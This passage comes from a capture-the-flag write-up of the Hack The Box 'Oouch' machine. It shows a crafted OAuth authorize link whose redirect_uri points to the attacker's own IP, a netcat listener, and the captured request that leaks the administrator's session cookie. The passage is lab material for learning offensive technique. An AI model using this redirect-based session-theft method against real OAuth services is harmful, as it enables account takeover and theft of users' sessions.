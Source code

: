 
Back to our home page, we can see there are 2 options one is token and authorize.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2025.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2025.png)

If you remember correctly, when we try to login here `consumer.oouch.htb:5000/oauth/login` the parameter looks like this. Now we have our own application . So If the Administrator click this we can grab his session id.

```nix
http://authorization.oouch.htb:8000/oauth/authorize?client_id=4muao51xk7wSAAMFe970Cr80vQaO8DusCEQW81fG&redirect_uri=http://10.10.14.9:1234&grant_type=client_credentials&client_secret=IVehRabE8UzG9EQrzDUCy7gfupOlL15y5RKc10CeWFJT8f9zWjf3CylrUriGwEatsPvjOZyoIfagE1hF4GgKAEV9ETNuZ2N5cUx5kEMWeuTaGVSl89gzPFwoJeEE0vEI
```

I send the link, the same way we did before.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2026.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2026.png)

And I got a hit in my netcat and got the Administrator( qtc ) sessionid.

```nix
root@kali:~/CTF/HTB/Boxes/Oouch# nc -lnvp 1234 > something2
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.177] 38648
root@kali:~/CTF/HTB/Boxes/Oouch# cat something2 
GET /?error=invalid_request&error_description=Missing+response_type+parameter. HTTP/1.1
Host: 10.10.14.9:1234
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: sessionid=w9q1h1m2fxe7o2gka30kvlicbuddkjic;
```
